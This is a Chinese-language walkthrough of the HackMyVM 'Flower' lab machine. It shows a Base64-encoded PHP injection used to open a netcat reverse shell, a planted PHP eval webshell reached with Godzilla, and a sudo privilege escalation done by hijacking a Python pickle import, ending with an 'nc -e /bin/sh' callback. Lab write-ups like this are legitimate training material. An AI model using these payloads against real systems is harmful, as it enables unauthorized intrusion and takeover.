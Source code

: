 ```yaml
---
{"dg-publish":true,"tags":["HMV"],"难度":"⭐️⭐️","作者":"sml","系统":"Linux","permalink":"/24-渗透/HMV/2.Flower/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.840+08:00"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/2.Flower#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/2.Flower#2. webshell\|2. webshell]]
- [[24-渗透/HMV/2.Flower#3. 写后门\|3. 写后门]]
- [[24-渗透/HMV/2.Flower#4. 提权\|4. 提权]]

## 2. webshell

nmap 扫描端口

```Bash
Nmap scan report for 192.168.9.4
Host is up (0.00014s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:18:4F:12 (Oracle VirtualBox virtual NIC)
```
访问网站查看

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.001.png)

点击submit

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.002.png)

选择不同的花会显示出不同的数字

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.003.png)

既然这个数字在变，那我应该从数字入手。抓个包看看

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

这个MSsy就是1+2=3

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

说明这里存在Base64后的代码解析

先测试下

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

直接反弹shell

```Bash
c3lzdGVtKCdiYXNoIHwgbmMgMTkyLjE2OC45LjMgMTEyMicp
#system('bash | nc 192.168.9.3 1122')
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.004.png)

弹shell成功后但是不给回显 

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.005.png)

直接写文件

先看一下当前目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.006.png)

就在网站目录

## 3. 写后门

```Bash
system('echo "<?php eval(\$\_POST[\"pass\"]);?>" > a.php');
c3lzdGVtKCdlY2hvICI8P3BocCBldmFsKFwkX1BPU1RbXCJwYXNzXCJdKTs/PiIgPiBhLnBocCcpOw==
```
哥斯拉连接

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.007.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.008.png)

## 4. 提权

```Bash
find / -perm -4000 2>/dev/null
```
尝试SUID 提权发现没有什么可以利用的

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/2.Flower.009.png)

这里面可以看到有sudo

我们看下当前用户可以用sudo执行什么文件

```Bash
/tmp >sudo -l

Matching Defaults entries for www-data on flower:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on flower:
    (rose) NOPASSWD: /usr/bin/python3 /home/rose/diary/diary.py
```
看下这个文件

```Python
import pickle

diary = {"November28":"i found a blue viola","December1":"i lost my blue viola"}
p = open('diary.pickle','wb')
pickle.dump(diary,p)
```
分析脚本可以发现这个脚本会引入pickle模块，然后执行代码

这里我们在同级目录新建一个pickle.py文件。这样就会引入我们的这个pickle.py 而不会引入模块库里面的pickle

新建一个pickle.py文件

将反弹命令写进这个文件里面 

```Python
import os;os.system("/bin/bash")
```
然后执行diary.py

```Bash
sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py
```
sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py

```Bash
system('nc -e /bin/sh 192.168.9.3 9999')
```


